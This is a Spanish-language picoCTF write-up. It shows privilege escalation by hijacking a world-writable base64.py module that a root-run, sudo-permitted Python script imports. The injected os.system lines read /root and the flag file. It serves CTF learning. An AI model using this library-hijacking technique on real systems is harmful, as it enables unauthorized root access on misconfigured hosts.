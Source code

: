 Este ejercicio nos ofrece una sesión ssh.

Si hacemos un poco de enumeración por la maquina podemos ver 2 cosas interesantes:

1. Archivo .server.py en la carpeta picoctf

```python
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

2. Sudoer

```c
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

He intentado hacer un PATH hijacking pero no tuve éxito. Luego de esto podemos intentar mirar si podemos hacer un hijacking pero de las librerías.

Primero vamos a ver donde están las librerías:

```bash
picoctf@challenge:~$ python3
Python 3.8.10 (default, May 26 2023, 14:05:08) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> print(sys.path)
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

Navegando por esos directorios podemos ver unos permisos críticos en una de las librerías que usa el programa

```bash
-rwxrwxrwx 1 root root  20382 May 26  2023 base64.py
```

Vamos a introducir las siguientes líneas en el archivo para hacer un mapeo rápido del directorio root para ver la flag:

```python
import os
os.system('ls -al /root > /home/picoctf/mapeo.txt')
```

Podemos introducir la siguiente linea en el archivo y conseguir la flag:

```python
os.system('cat /root/.flag.txt')
```

```python
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
picoCTF{SECRETO} # FLAG
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
picoctf@challenge:~$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
```
